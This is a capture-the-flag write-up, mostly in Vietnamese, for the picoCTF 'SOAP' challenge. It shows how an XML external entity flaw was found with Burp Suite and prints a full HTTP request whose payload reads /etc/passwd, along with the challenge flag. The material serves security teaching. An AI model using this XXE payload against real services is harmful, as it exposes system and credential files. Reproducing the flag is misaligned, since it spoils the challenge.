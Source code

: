 # Write-up : SOAP 
---
### Description :
> The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?
### Hint :
> XML external entity Injection
--- 
### Solution :
- Sau khi đọc hint và đề bài thì chúng ta biết lỗi trong bài này là XML Injection
- Dùng burp suite kiểm tra request gửi đi thì ta thấy mỗi khi bấm details của mỗi hình thì sẽ trả về 1 tham số id khác nhau

Dùng burp suite để chặn 1 request và chuyển request đó sang repeater để cùng thử các payload:
> khi thay đổi tham số id thì có sự thay đổi của response gửi về, khi thay đổi về 0 thì trả về :
```http
HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.8.10
Date: Fri, 27 Jun 2025 14:48:32 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 13
Connection: close

Invalid ID: 0
```
Thử với `` &lt; `` thì trả về : `` < `` 
```bash
POST /data HTTP/1.1
Host: saturn.picoctf.net:61837
Content-Length: 128
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:61837
Referer: http://saturn.picoctf.net:61837/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
<data><ID>&lt;</ID></data>
```
> Từ đó cho ta thấy `` xml parser `` có chạy vì thế ta có thể tạo và sửa đổi nội dung xml

Payload tấn công :
```
<!DOCTYPE data [<!ENTITY abc SYSTEM "file:///etc/passwd">]>
```
Và gọi `` &abc `` ở chỗ `` xml parser `` hoạt động 
```bash
POST /data HTTP/1.1
Host: saturn.picoctf.net:61837
Content-Length: 128
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:61837
Referer: http://saturn.picoctf.net:61837/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [<!ENTITY abc SYSTEM "file:///etc/passwd">]>
<data><ID>&abc;</ID></data>
```
### Flag : `` picoCTF{XML_3xtern@l_3nt1t1ty_55662c16} `` 
